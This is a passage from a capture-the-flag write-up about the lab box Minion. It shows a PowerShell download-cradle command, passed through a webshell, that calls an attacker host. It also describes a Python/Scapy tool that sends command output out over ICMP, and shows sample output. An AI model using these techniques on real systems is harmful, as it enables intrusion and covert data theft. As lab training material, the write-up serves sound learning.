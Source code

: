 
Next I’ll try to connect back with an HTTP request. I’ll start a Python
webserver, and pass `powershell -c '(new-object
new.webclient).downloadstring("http://10.10.14.6")'` as `xcmd`, but there’s no
connection. I’ll a bunch of other ports and other ways, but nothing will
connect back to me except for ICMP.

### Shell over HTTP/ICMP

I’m going to write a Python script that will help me leak data and enumerate
this host. I’m also going to need a short Powershell blob that will:

  * run a command
  * capture the results
  * break the results into parts
  * send the results back in ICMP packets

The Python script will:

  * take the input command and build the PowerShell with it
  * submit that PowerShell via the webshell
  * capture ICMP packets from Minion
  * extract the data from the packet and print it to the screen

[Scapy](https://scapy.readthedocs.io/en/latest/introduction.html) is a Python
packet utility that can craft and sniff packets. I’ll use Scopy to handle the
ICMP, and Python Cmd to make the script feel like a shell. It won’t have
persistence between commands (I can’t `cd` for example), but otherwise it
works pretty well. [This video](https://www.youtube.com/watch?v=itMImlUZP0E)
shows the process of creating it:

The full script it [here](/files/minion-icmp-shell.py), and it runs like:

    
    
    oxdf@hacky$ sudo python icmp_shell.py                                                                                         
    minion> whoami                    
    iis apppool\defaultapppool                                          
    minion> pwd                       
    
    Path
    ----
    C:\windows\system32\inetsrv
    
    
    minion> ls                        
    
    
        Directory: C:\windows\system32\inetsrv                          
    
    
    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    d----         8/10/2017   9:31 AM            config
    d----         8/10/2017   9:31 AM            en
    d----         8/10/2017   9:41 AM            en-US
    -a---        10/28/2014   7:26 PM     121344 appcmd.exe
    ...[snip]...
    